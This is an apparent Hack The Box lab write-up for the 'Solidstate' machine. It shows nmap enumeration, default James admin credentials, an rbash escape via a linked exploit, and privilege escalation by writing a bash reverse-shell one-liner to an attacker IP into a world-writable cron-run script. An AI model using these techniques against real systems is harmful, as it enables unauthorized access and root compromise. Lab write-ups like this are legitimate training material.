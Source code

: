 Title: HTB Solidstate box writeup
Tags: oscp, htb
Summary: A very lab-alike box
Date: 2020-09-21 15:00
Status: published

# Enumeration
As always, starting with the full TCP range scan:
<pre>
    Nmap 7.80 scan initiated Sun Sep 20 20:28:25 2020 as: nmap -sS -p- -oA enum/nmap-ss-all 10.10.10.51
    Nmap scan report for solidstate.htb (10.10.10.51)
    Host is up (0.056s latency).
    Not shown: 65529 closed ports
    PORT     STATE SERVICE
    22/tcp   open  ssh
    25/tcp   open  smtp
    80/tcp   open  http
    110/tcp  open  pop3
    119/tcp  open  nntp
    4555/tcp open  rsip
    Nmap done at Sun Sep 20 20:29:04 2020 -- 1 IP address (1 host up) scanned in 38.35 seconds
</pre>
And continuing with open ports:
<pre>
    Nmap 7.80 scan initiated Sun Sep 20 20:30:19 2020 as: nmap -sC -A -T4 -p22,25,80,110,119,4555 -oA enum/nmap-sCAT4-open 10.10.10.51
    Nmap scan report for solidstate.htb (10.10.10.51)
    Host is up (0.054s latency).
    PORT     STATE SERVICE     VERSION
    22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
    |   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
    |_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
    25/tcp   open  smtp        JAMES smtpd 2.3.2
    |_smtp-commands: solidstate Hello solidstate.htb (10.10.14.34 [10.10.14.34]), 
    80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
    |_http-server-header: Apache/2.4.25 (Debian)
    |_http-title: Home - Solid State Security
    110/tcp  open  pop3        JAMES pop3d 2.3.2
    119/tcp  open  nntp        JAMES nntpd (posting ok)
    4555/tcp open  james-admin JAMES Remote Admin 2.3.2
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.2 (95%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    TRACEROUTE (using port 25/tcp)
    HOP RTT      ADDRESS
    1   54.21 ms 10.10.14.1
    2   54.37 ms solidstate.htb (10.10.10.51)
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Sun Sep 20 20:30:47 2020 -- 1 IP address (1 host up) scanned in 28.15 seconds
</pre>

# Exploitation
After some manual inspection of these services, it turned out that creds for James admin console are `root:root`:

![james root](/cstatic/htb-solidstate/james-root.png)

Mindy creds work for SSH, but we are logging in into restricted shell:

![rbash](/cstatic/htb-solidstate/mindy-rbash.png)

However, even this restricted shell allows to grab user flag since `cat` is allowed. 
[This exploit](https://www.exploit-db.com/exploits/35513) allows us to get out of rbash as mindy. I've
also tried to poke around with initial shell, but haven't got any useful info with `cat` and `ls` only.
`env` looks broken in there, more like symlink to nonexistent file. 

# Privilege escalation
There's an interesting world-writable file at `/opt/tmp.py`:
```python
    #!/usr/bin/env python
    import os
    import sys
    try:
         os.system('rm -r /tmp/* ')
    except:
         sys.exit()
```
I've already noticed that `/tmp` is being cleared frequently and this script seems to be running via
cron. Added usual bash revshell oneliner `/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.34/443 0>&1'` and
got a root shell:

![root shell](/cstatic/htb-solidstate/root-shell.png)
